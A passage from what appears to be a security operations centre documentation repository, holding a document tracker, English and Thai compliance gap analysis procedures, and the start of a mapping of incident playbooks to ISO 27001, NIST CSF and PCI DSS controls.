| [SOC Metrics & KPIs](06_Operations_Management/SOC_Metrics.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
| [KPI Dashboard Template](06_Operations_Management/KPI_Dashboard_Template.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
| [Log Source Matrix](06_Operations_Management/Log_Source_Matrix.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
| [Log Source Onboarding](06_Operations_Management/Log_Source_Onboarding.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
| [SOC Automation Catalog](06_Operations_Management/SOC_Automation_Catalog.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
| [Alert Tuning](06_Operations_Management/Alert_Tuning.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
| [SOC Capacity Planning](06_Operations_Management/SOC_Capacity_Planning.en.md) | 1.0 | 2026-02-16 | ✅ Current | 2027-02-16 |
| [Network Security Monitoring](06_Operations_Management/Network_Security_Monitoring.en.md) | 1.0 | 2026-02-16 | ✅ Current | 2027-02-16 |
| [Cloud Security Monitoring](06_Operations_Management/Cloud_Security_Monitoring.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
| [DLP SOP](06_Operations_Management/DLP_SOP.en.md) | 1.0 | 2026-02-16 | ✅ Current | 2027-02-16 |
| [Insider Threat Program](06_Operations_Management/Insider_Threat_Program.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
| [Threat Intelligence Lifecycle](06_Operations_Management/Threat_Intelligence_Lifecycle.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
| [TI Feeds Integration](06_Operations_Management/TI_Feeds_Integration.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
| [Threat Landscape Report](06_Operations_Management/Threat_Landscape_Report.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
| [Detection Rule Testing](06_Operations_Management/Detection_Rule_Testing.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
| [Vulnerability Management](06_Operations_Management/Vulnerability_Management.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
| [Third-Party Risk](06_Operations_Management/Third_Party_Risk.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
| [SOC Maturity Assessment](06_Operations_Management/SOC_Maturity_Assessment.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
| [SOC Assessment Checklist](06_Operations_Management/SOC_Assessment_Checklist.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
| [SLA Template](06_Operations_Management/SLA_Template.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
| [Vendor Evaluation](06_Operations_Management/Vendor_Evaluation.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
| [Data Handling Protocol](06_Operations_Management/Data_Handling_Protocol.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
| [Change Management](06_Operations_Management/Change_Management.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
| [Access Control Policy](06_Operations_Management/Access_Control.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
| [Communication SOP](06_Operations_Management/SOC_Communication.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
| [Alert Tuning](06_Operations_Management/Alert_Tuning.en.md) | 1.0 | 2026-02-16 | ✅ Current | 2027-02-16 |
| [SOC Communication SOP](06_Operations_Management/SOC_Communication.en.md) | 1.0 | 2026-02-16 | ✅ Current | 2027-02-16 |

## 🎯 Testing & Training

| Document | Version | Last Updated | Status | Next Review |
|:---|:---:|:---:|:---:|:---:|
| [Purple Team Exercise Guide](09_Simulation_Testing/Purple_Team_Exercise.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
| [Phishing Simulation](09_Simulation_Testing/Phishing_Simulation.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
| [Simulation Guide](09_Simulation_Testing/Simulation_Guide.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
| [Atomic Test Map](09_Simulation_Testing/Atomic_Test_Map.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
| [SOC Analyst Onboarding](10_Training_Onboarding/SOC_Onboarding.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
| [Analyst Onboarding Path](10_Training_Onboarding/Analyst_Onboarding_Path.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
| [Training Checklist](10_Training_Onboarding/Training_Checklist.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |

## 🏛️ Compliance

| Document | Version | Last Updated | Status | Next Review |
|:---|:---:|:---:|:---:|:---:|
| [Compliance Mapping](07_Compliance_Privacy/Compliance_Mapping.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
| [ISO 27001 Controls Mapping](07_Compliance_Privacy/ISO27001_Controls_Mapping.en.md) | 1.0 | 2026-02-17 | ✅ Current | 2027-02-17 |
| [PCI-DSS SOC Requirements](07_Compliance_Privacy/PCI_DSS_SOC_Requirements.en.md) | 1.0 | 2026-02-17 | ✅ Current | 2027-02-17 |
| [NIST CSF 2.0 Mapping](07_Compliance_Privacy/NIST_CSF_Mapping.en.md) | 1.0 | 2026-02-17 | ✅ Current | 2027-02-17 |
| [PDPA Incident Response](07_Compliance_Privacy/PDPA_Incident_Response.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
| [Compliance Gap Analysis](07_Compliance_Privacy/Compliance_Gap_Analysis.en.md) | 1.0 | 2026-02-16 | ✅ Current | 2027-02-16 |
| [PDPA Compliance](07_Compliance_Privacy/PDPA_Compliance.en.md) | 1.0 | 2026-02-16 | ✅ Current | 2027-02-16 |
| [Data Governance Policy](07_Compliance_Privacy/Data_Governance_Policy.en.md) | 1.0 | 2026-02-16 | ✅ Current | 2027-02-16 |

## 📄 Reports & Templates

| Document | Version | Last Updated | Status | Next Review |
|:---|:---:|:---:|:---:|:---:|
| [Monthly SOC Report](11_Reporting_Templates/Monthly_SOC_Report.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
| [Quarterly Business Review](11_Reporting_Templates/Quarterly_Business_Review.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
| [Executive Dashboard](11_Reporting_Templates/Executive_Dashboard.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
| [Incident Report Template](11_Reporting_Templates/incident_report.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
| [Shift Handover Template](11_Reporting_Templates/shift_handover.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
| [Change Request (RFC)](11_Reporting_Templates/change_request_rfc.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |

---

## 📊 Summary

| Category | Documents | All Current | Next Review |
|:---|:---:|:---:|:---:|
| Getting Started | 3 | ✅ | 2027-02 |
| SOC Fundamentals | 6 | ✅ | 2027-02 |
| Incident Response | 14 + 50 playbooks | ✅ | 2027-02 |
| Operations Management | 31 | ✅ | 2027-02 |
| Testing & Training | 7 | ✅ | 2027-02 |
| Compliance | 8 | ✅ | 2027-02 |
| Reports & Templates | 6 | ✅ | 2027-02 |
| **Total** | **107+** | **✅ 100%** | **2027-02** |

> **Last tracker update**: 2026-02-16 | **Repository version**: 2.6.0


---

## File: 07_Compliance_Privacy/Compliance_Gap_Analysis.en.md

# Compliance Gap Analysis SOP

**Document ID**: COMP-SOP-003
**Version**: 1.0
**Classification**: Internal
**Last Updated**: 2026-02-16

> Procedures for **assessing organizational compliance posture** against regulatory frameworks, identifying gaps, prioritizing remediation, and tracking progress. Covers ISO 27001, NIST CSF, PCI DSS, PDPA, and GDPR mapping.

---

## Compliance Frameworks Matrix

| Framework | Scope | Applicability | Review Cycle |
|:---|:---|:---|:---:|
| **ISO 27001:2022** | Information Security Management System | All organizations | Annual |
| **NIST CSF 2.0** | Cybersecurity risk management | Critical infrastructure, voluntary | Annual |
| **PCI DSS v4.0** | Cardholder data protection | Payment card processing | Quarterly + Annual |
| **PDPA** | Personal data protection (Thailand) | All Thai data processing | Annual |
| **GDPR** | Personal data protection (EU) | EU citizen data processing | Annual |
| **CSA CCM v4** | Cloud security controls | Cloud service providers | Annual |

---

## Gap Analysis Process



### Phase Details

| Phase | Activities | Output | Duration |
|:---|:---|:---|:---:|
| **1. Scope** | Identify applicable frameworks, business units, systems | Scope document | 1 week |
| **2. Inventory** | Document existing policies, processes, tools, controls | Control inventory | 2 weeks |
| **3. Map** | Map each control to framework requirements | Control mapping matrix | 2 weeks |
| **4. Identify** | Compare implemented vs required → find gaps | Gap register | 1 week |
| **5. Risk-score** | Score each gap by impact × likelihood | Prioritized gap list | 1 week |
| **6. Plan** | Define remediation actions, resources, budget | Remediation plan | 2 weeks |
| **7. Assign** | Designate owners, set deadlines | RACI + timeline | 1 week |
| **8. Track** | Monitor progress, report to stakeholders | Progress dashboard | Ongoing |
| **9. Re-assess** | Validate remediation effectiveness | Updated gap register | Quarterly |

---

## SOC-Specific Control Areas

### Detection & Response Controls

| Control Area | ISO 27001 | NIST CSF | PCI DSS | Key Questions |
|:---|:---:|:---:|:---:|:---|
| **SIEM deployment** | A.8.15 | DE.CM | 10.6 | Is SIEM covering all critical log sources? |
| **Log collection** | A.8.15 | DE.CM-3 | 10.2 | Are all required sources onboarded? |
| **Alert monitoring** | A.8.16 | DE.AE | 10.6.1 | Is 24/7 monitoring in place? |
| **Incident response plan** | A.5.24 | RS.RP | 12.10 | Is IR plan documented and tested? |
| **Vulnerability scanning** | A.8.8 | DE.CM-8 | 11.3 | Is scanning running at required frequency? |
| **Penetration testing** | A.8.8 | PR.IP | 11.4 | Is annual pentest conducted? |
| **Access management** | A.8.2 | PR.AC | 7.1 | Is least privilege enforced? |
| **MFA** | A.8.5 | PR.AC-7 | 8.4 | Is MFA enabled for all admin access? |
| **Encryption** | A.8.24 | PR.DS-1 | 3.4 | Is data encrypted at rest and in transit? |
| **Backup & recovery** | A.8.13 | PR.IP-4 | 9.5 | Are backups tested regularly? |

### Data Protection Controls (PDPA/GDPR)

| Control | PDPA Section | GDPR Article | Assessment Questions |
|:---|:---:|:---:|:---|
| **Lawful basis** | §24 | Art. 6 | Is lawful basis documented for each processing activity? |
| **Consent management** | §19 | Art. 7 | Is consent freely given, specific, informed? |
| **Data subject rights** | §30–36 | Art. 15–22 | Can requests be fulfilled within 30 days? |
| **Breach notification** | §37 | Art. 33–34 | Can we notify within 72 hours? |
| **DPO appointment** | §41 | Art. 37 | Is DPO appointed with adequate authority? |
| **DPIA** | §26 | Art. 35 | Are DPIAs conducted for high-risk processing? |
| **Cross-border transfer** | §28 | Art. 44–49 | Are adequate safeguards in place? |
| **Records of processing** | §39 | Art. 30 | Are processing records maintained? |

---

## Gap Risk Scoring

### Scoring Matrix

| Factor | 1 — Low | 2 — Medium | 3 — High | 4 — Critical |
|:---|:---|:---|:---|:---|
| **Business impact** | Minimal disruption | Moderate impact | Significant loss | Business-critical failure |
| **Regulatory risk** | Advisory finding | Minor non-compliance | Material non-compliance | Regulatory action / fine |
| **Exploit likelihood** | Unlikely | Possible | Probable | Active exploitation |
| **Data sensitivity** | Public data | Internal data | Confidential / PII | Restricted / regulated |

### Risk Score Calculation

| Combined Score | Priority | Remediation Timeline | Reporting |
|:---:|:---|:---:|:---|
| **13–16** | 🔴 Critical | < 30 days | Weekly to CISO |
| **9–12** | 🟠 High | < 90 days | Monthly to CISO |
| **5–8** | 🟡 Medium | < 180 days | Quarterly review |
| **1–4** | 🟢 Low | Next audit cycle | Annual review |

---

## Remediation Tracking

### Remediation Plan Template

| Field | Value |
|:---|:---|
| **Gap ID** | GAP-____-_____ |
| **Framework** | ISO 27001 / NIST / PCI / PDPA |
| **Control Reference** | ______________ |
| **Current State** | ______________ |
| **Required State** | ______________ |
| **Gap Description** | ______________ |
| **Risk Score** | _____ / 16 |
| **Remediation Action** | ______________ |
| **Owner** | ______________ |
| **Budget Required** | ฿____________ |
| **Target Date** | ____-__-__ |
| **Evidence Required** | ______________ |
| **Status** | 🔴 Open / 🟡 In Progress / 🟢 Closed |

### Progress Dashboard

| Metric | Formula | Target |
|:---|:---|:---:|
| Overall compliance score | (Controls met ÷ Total controls) × 100 | ≥ 85% |
| Critical gaps open | Count of score 13–16 open | 0 |
| High gaps overdue | Count of score 9–12 past due | 0 |
| Mean time to remediate (critical) | Avg days gap open → closed | < 30 days |
| Mean time to remediate (high) | Avg days gap open → closed | < 90 days |
| Gaps reopened | Gaps that failed re-validation | < 5% |

---

## Audit Preparation

### Pre-Audit Checklist

| Category | Items | Owner |
|:---|:---|:---|
| **Documentation** | Policies, procedures, standards current | Compliance Manager |
| **Evidence** | Screenshots, logs, configurations collected | SOC Lead |
| **Access** | Auditor accounts provisioned | IT Admin |
| **Interviews** | Staff briefed on roles and processes | Department Heads |
| **Testing** | Recent scan/pentest reports available | Security Engineer |
| **Remediation** | Previous findings addressed with evidence | Control Owners |

### Evidence Collection Matrix

| Control Type | Acceptable Evidence | Collection Frequency |
|:---|:---|:---:|
| **Technical** | System configs, screenshots, tool exports | Real-time / daily |
| **Administrative** | Policies, procedures, meeting minutes | As updated |
| **Operational** | Logs, reports, incident records | Daily / weekly |
| **Physical** | Photos, access logs, visitor records | Monthly |

---

## Reporting

### Compliance Report Structure

| Section | Content | Audience |
|:---|:---|:---|
| **Executive Summary** | Overall score, critical findings, trend | Board / CISO |
| **Framework Status** | Per-framework compliance percentage | Management |
| **Gap Register** | All open gaps with risk scores | Control owners |
| **Remediation Progress** | Timeline tracking, overdue items | Project managers |
| **Risk Heat Map** | Visual risk distribution | Board / CISO |
| **Recommendations** | Prioritized next steps | Management |

### Reporting Cadence

| Report | Frequency | Audience |
|:---|:---:|:---|
| Critical gap alert | Immediate | CISO |
| Compliance dashboard | Weekly | Security team |
| Progress report | Monthly | Management |
| Framework assessment | Quarterly | Board / CISO |
| Full audit report | Annual | Board / External |

---

## Metrics

| Metric | Target |
|:---|:---:|
| Overall compliance score | ≥ 85% |
| Critical gaps open | 0 |
| Gap remediation on-time rate | ≥ 90% |
| Average remediation time (critical) | < 30 days |
| Audit finding recurrence rate | < 10% |
| Evidence availability | ≥ 95% |

---

## Related Documents

-   [Compliance Mapping](Compliance_Mapping.en.md) — ISO 27001 / NIST CSF / PCI DSS mapping
-   [PDPA Incident Response](PDPA_Incident_Response.en.md) — 72-hour notification SOP
-   [SOC Maturity Assessment](../06_Operations_Management/SOC_Maturity_Assessment.en.md) — SOC capability assessment
-   [Vulnerability Management](../06_Operations_Management/Vulnerability_Management.en.md) — Scanning & remediation
-   [Third-Party Risk](../06_Operations_Management/Third_Party_Risk.en.md) — Vendor compliance


---

## File: 07_Compliance_Privacy/Compliance_Gap_Analysis.th.md

# Compliance Gap Analysis SOP / SOP การวิเคราะห์ช่องว่างด้าน Compliance

**รหัสเอกสาร**: COMP-SOP-003
**เวอร์ชัน**: 1.0
**การจัดชั้นความลับ**: ใช้ภายใน
**อัปเดตล่าสุด**: 2026-02-16

> ขั้นตอน **ประเมินสถานะ Compliance, ระบุช่องว่าง, จัดลำดับการแก้ไข, และติดตามความคืบหน้า** ครอบคลุม ISO 27001, NIST CSF, PCI DSS, PDPA, และ GDPR

---

## กรอบ Compliance

| Framework | ขอบเขต | รอบทบทวน |
|:---|:---|:---:|
| **ISO 27001:2022** | ระบบจัดการความมั่นคงปลอดภัยสารสนเทศ | รายปี |
| **NIST CSF 2.0** | บริหารจัดการ cybersecurity risk | รายปี |
| **PCI DSS v4.0** | ปกป้องข้อมูลบัตรชำระเงิน | รายไตรมาส + รายปี |
| **PDPA** | คุ้มครองข้อมูลส่วนบุคคล (ไทย) | รายปี |
| **GDPR** | คุ้มครองข้อมูลส่วนบุคคล (EU) | รายปี |

---

## กระบวนการ Gap Analysis



---

## SOC-Specific Controls

### Detection & Response

| Control Area | ISO 27001 | NIST CSF | PCI DSS | คำถามหลัก |
|:---|:---:|:---:|:---:|:---|
| **SIEM** | A.8.15 | DE.CM | 10.6 | SIEM ครอบคลุม log sources ทั้งหมด? |
| **Log collection** | A.8.15 | DE.CM-3 | 10.2 | Onboard log sources ที่จำเป็นครบ? |
| **Alert monitoring** | A.8.16 | DE.AE | 10.6.1 | มี 24/7 monitoring? |
| **IR plan** | A.5.24 | RS.RP | 12.10 | IR plan ทดสอบแล้ว? |
| **Vuln scanning** | A.8.8 | DE.CM-8 | 11.3 | สแกนตามความถี่ที่กำหนด? |
| **Pentest** | A.8.8 | PR.IP | 11.4 | ทดสอบเจาะระบบรายปี? |
| **Access mgmt** | A.8.2 | PR.AC | 7.1 | Least privilege? |
| **MFA** | A.8.5 | PR.AC-7 | 8.4 | MFA สำหรับ admin ทั้งหมด? |

### Data Protection (PDPA/GDPR)

| Control | PDPA | GDPR | คำถาม |
|:---|:---:|:---:|:---|
| **ฐานทางกฎหมาย** | §24 | Art. 6 | มีฐานกฎหมายครบทุกกิจกรรม? |
| **ความยินยอม** | §19 | Art. 7 | Consent เป็น free, specific, informed? |
| **สิทธิเจ้าของข้อมูล** | §30–36 | Art. 15–22 | ดำเนินการได้ภายใน 30 วัน? |
| **แจ้งเหตุละเมิด** | §37 | Art. 33–34 | แจ้งได้ภายใน 72 ชม.? |
| **DPO** | §41 | Art. 37 | แต่งตั้ง DPO แล้ว? |
| **DPIA** | §26 | Art. 35 | ทำ DPIA สำหรับ high-risk? |

---

## การให้คะแนนความเสี่ยง

| คะแนนรวม | Priority | แก้ไขภายใน | รายงาน |
|:---:|:---|:---:|:---|
| **13–16** | 🔴 Critical | < 30 วัน | รายสัปดาห์ถึง CISO |
| **9–12** | 🟠 High | < 90 วัน | รายเดือนถึง CISO |
| **5–8** | 🟡 Medium | < 180 วัน | รายไตรมาส |
| **1–4** | 🟢 Low | Audit cycle ถัดไป | รายปี |

---

## การติดตามการแก้ไข

| ตัวชี้วัด | สูตร | เป้าหมาย |
|:---|:---|:---:|
| Compliance score รวม | (Controls met ÷ Total) × 100 | ≥ 85% |
| Critical gaps open | จำนวน score 13–16 ที่เปิด | 0 |
| High gaps overdue | จำนวน score 9–12 เลยกำหนด | 0 |
| MTTR (critical) | วันเฉลี่ยจากเปิด→ปิด | < 30 วัน |
| MTTR (high) | วันเฉลี่ยจากเปิด→ปิด | < 90 วัน |
| Gaps reopened | Gaps ที่ re-validate ไม่ผ่าน | < 5% |

---

## ตัวชี้วัด

| ตัวชี้วัด | เป้าหมาย |
|:---|:---:|
| Overall compliance score | ≥ 85% |
| Critical gaps open | 0 |
| Gap remediation on-time | ≥ 90% |
| Remediation time (critical) | < 30 วัน |
| Audit finding recurrence | < 10% |
| Evidence availability | ≥ 95% |

---

## Gap Analysis Methodology



## เทมเพลตการประเมินรายละเอียด

### ISO 27001 Controls Mapping

| Control | หมวด | สถานะ | Gap | ลำดับ |
|:---|:---|:---:|:---|:---:|
| A.5 | Information Security Policies | ✅/⚠️/❌ | [ระบุ] | 🔴/🟡/🟢 |
| A.6 | Organization of InfoSec | ✅/⚠️/❌ | [ระบุ] | 🔴/🟡/🟢 |
| A.7 | Human Resource Security | ✅/⚠️/❌ | [ระบุ] | 🔴/🟡/🟢 |
| A.8 | Asset Management | ✅/⚠️/❌ | [ระบุ] | 🔴/🟡/🟢 |
| A.9 | Access Control | ✅/⚠️/❌ | [ระบุ] | 🔴/🟡/🟢 |
| A.10 | Cryptography | ✅/⚠️/❌ | [ระบุ] | 🔴/🟡/🟢 |
| A.11 | Physical Security | ✅/⚠️/❌ | [ระบุ] | 🔴/🟡/🟢 |
| A.12 | Operations Security | ✅/⚠️/❌ | [ระบุ] | 🔴/🟡/🟢 |
| A.13 | Communications Security | ✅/⚠️/❌ | [ระบุ] | 🔴/🟡/🟢 |

### NIST CSF Mapping

| Function | Category | สถานะ | ระดับ (1-4) |
|:---|:---|:---:|:---:|
| **Identify** | Asset Management | ✅/⚠️/❌ | [X] |
| **Identify** | Risk Assessment | ✅/⚠️/❌ | [X] |
| **Protect** | Access Control | ✅/⚠️/❌ | [X] |
| **Detect** | Continuous Monitoring | ✅/⚠️/❌ | [X] |
| **Respond** | Response Planning | ✅/⚠️/❌ | [X] |
| **Recover** | Recovery Planning | ✅/⚠️/❌ | [X] |

## Remediation Tracking

| Gap ID | Framework | Control | ลำดับ | Owner | Deadline | สถานะ |
|:---:|:---|:---|:---:|:---|:---:|:---:|
| GAP-001 | ISO 27001 | A.12.4 | 🔴 | [ชื่อ] | [วันที่] | ☐ |
| GAP-002 | NIST CSF | DE.CM | 🟡 | [ชื่อ] | [วันที่] | ☐ |
| GAP-003 | PDPA | Art.37 | 🔴 | [ชื่อ] | [วันที่] | ☐ |

## KPIs สำหรับ Compliance

| ตัวชี้วัด | เป้าหมาย | ปัจจุบัน |
|:---|:---|:---|
| % Controls Implemented | ≥ 90% | [XX]% |
| Critical Gaps Outstanding | 0 | [XX] |
| Time to Remediate (Critical) | ≤ 30 วัน | [XX] วัน |
| Compliance Score (รวม) | ≥ 85% | [XX]% |

## Gap Remediation Tracking

### Remediation Priority Matrix

| Gap Category | Impact | Effort | Priority |
|:---|:---|:---|:---|
| Missing controls | สูง | สูง | P1 - ดำเนินการทันที |
| Incomplete policies | สูง | ต่ำ | P1 - Quick win |
| Outdated procedures | กลาง | ต่ำ | P2 - ปรับปรุง |
| Documentation gaps | ต่ำ | ต่ำ | P3 - จัดทำ |
| Training deficiencies | กลาง | กลาง | P2 - วางแผน |

### Gap Assessment Checklist

| Control Area | ISO 27001 | NIST CSF | PCI DSS | สถานะ |
|:---|:---|:---|:---|:---|
| Risk Assessment | A.6 | ID.RA | 12.2 | ✅/⚠️/❌ |
| Access Control | A.9 | PR.AC | 7,8 | ✅/⚠️/❌ |
| Incident Response | A.16 | RS | 12.10 | ✅/⚠️/❌ |
| Logging & Monitoring | A.12 | DE | 10 | ✅/⚠️/❌ |
| Data Protection | A.8 | PR.DS | 3,4 | ✅/⚠️/❌ |

### Quarterly Gap Review Cadence

| Activity | Timeline | Owner |
|:---|:---|:---|
| Scan for new requirements | Week 1 | Compliance Officer |
| Update gap register | Week 2 | Security Team |
| Risk re-assessment | Week 3 | CISO |
| Remediation planning | Week 4 | All |

### Gap Severity Criteria

| Severity | Definition | SLA |
|:---|:---|:---|
| Critical | Active non-compliance | 30 days |
| High | Significant gap | 60 days |
| Medium | Partial compliance | 90 days |
| Low | Documentation gap | 180 days |

### Gap Status Legend

| Icon | Meaning |
|:---|:---|
| ✅ | Compliant |
| ⚠️ | Partial |
| ❌ | Non-compliant |

## เอกสารที่เกี่ยวข้อง

-   [Compliance Mapping](Compliance_Mapping.en.md) — ISO 27001 / NIST CSF / PCI DSS
-   [PDPA Incident Response](PDPA_Incident_Response.en.md) — แจ้ง 72 ชม.
-   [SOC Maturity Assessment](../06_Operations_Management/SOC_Maturity_Assessment.en.md) — ประเมิน SOC
-   [Vulnerability Management](../06_Operations_Management/Vulnerability_Management.en.md) — การสแกนและแก้ไข


---

## File: 07_Compliance_Privacy/Compliance_Mapping.en.md

# Compliance Mapping — SOC Playbooks × Frameworks

> **Document ID:** COMP-MAP-001  
> **Version:** 1.0  
> **Last Updated:** 2026-02-15  
> **Owner:** SOC Manager / Compliance Officer  

---

## Purpose

This document maps all **30 SOC Playbooks**, **33 Sigma Detection Rules**, and key SOC operational controls to three major compliance frameworks:

- **ISO/IEC 27001:2022** — Information Security Management System
- **NIST Cybersecurity Framework (CSF) 2.0** — Identify, Protect, Detect, Respond, Recover
- **PCI DSS v4.0** — Payment Card Industry Data Security Standard

Use this mapping for **audit preparation**, **gap analysis**, and **demonstrating SOC coverage** to auditors and regulators.

---

## Playbook → Framework Mapping

### PB-01 to PB-10 (Core Playbooks)

| Playbook | ISO 27001:2022 | NIST CSF 2.0 | PCI DSS v4.0 |
|:---|:---|:---|:---|
| **PB-01** Phishing | A.5.23 (Information security for cloud), A.8.7 (Malware protection) | DE.AE-2, DE.AE-3, RS.AN-1, RS.MI-1 | 5.3, 12.10.5 |
| **PB-02** Ransomware | A.8.7 (Malware protection), A.8.13 (Information backup), A.8.14 (Redundancy) | DE.AE-3, RS.MI-1, RS.MI-2, RC.RP-1 | 5.2, 5.3, 12.10.5 |
| **PB-03** Malware Infection | A.8.7 (Malware protection), A.8.23 (Web filtering) | DE.CM-4, DE.AE-3, RS.MI-1 | 5.2, 5.3, 11.5.1 |
| **PB-04** Brute Force | A.8.5 (Secure authentication), A.5.17 (Authentication info) | DE.CM-1, DE.AE-2, PR.AC-7 | 8.2.4, 8.3.4, 10.7 |
| **PB-05** Account Compromise | A.5.16 (Identity management), A.8.5 (Secure authentication) | DE.AE-3, RS.AN-1, PR.AC-1 | 8.2, 8.3, 10.6.1 |
| **PB-06** Impossible Travel | A.8.5 (Secure authentication), A.8.15 (Logging) | DE.AE-2, DE.AE-5, RS.AN-1 | 10.6.1, 10.7 |
| **PB-07** Privilege Escalation | A.8.2 (Privileged access rights), A.8.18 (Use of privileged utility) | DE.CM-3, DE.AE-3, PR.AC-4 | 7.1, 7.2, 10.2.1 |
| **PB-08** Data Exfiltration | A.8.12 (Data leakage prevention), A.8.10 (Information deletion) | DE.AE-3, DE.CM-7, RS.MI-1 | 3.4, 10.6.1, 12.10.5 |
| **PB-09** DDoS Attack | A.8.20 (Network security), A.8.22 (Segregation of networks) | DE.AE-1, RS.MI-1, RS.MI-2 | 11.5.1, 12.10.5 |
| **PB-10** Web App Attack | A.8.26 (Application security requirements), A.8.28 (Secure coding) | DE.CM-6, DE.AE-3, RS.MI-1 | 6.2, 6.4, 11.5.1 |

### PB-11 to PB-20 (Advanced Playbooks)

| Playbook | ISO 27001:2022 | NIST CSF 2.0 | PCI DSS v4.0 |
|:---|:---|:---|:---|
| **PB-11** Suspicious Script | A.8.7 (Malware protection), A.8.19 (Installation of software) | DE.CM-4, DE.AE-3, RS.AN-1 | 5.3, 11.5.1 |
| **PB-12** Lateral Movement | A.8.22 (Segregation of networks), A.8.20 (Network security) | DE.CM-1, DE.CM-7, RS.MI-1 | 1.3, 11.4, 11.5.1 |
| **PB-13** C2 Communication | A.8.20 (Network security), A.8.23 (Web filtering) | DE.CM-1, DE.AE-2, RS.AN-1 | 1.3, 10.6.1, 11.5.1 |
| **PB-14** Insider Threat | A.5.9 (Inventory of information), A.6.1 (Screening) | DE.CM-3, DE.AE-5, RS.AN-1 | 7.1, 7.2, 10.2.1 |
| **PB-15** Rogue Admin | A.8.2 (Privileged access rights), A.5.18 (Access rights) | DE.CM-3, DE.AE-3, PR.AC-4 | 7.1, 7.2, 10.2.1 |
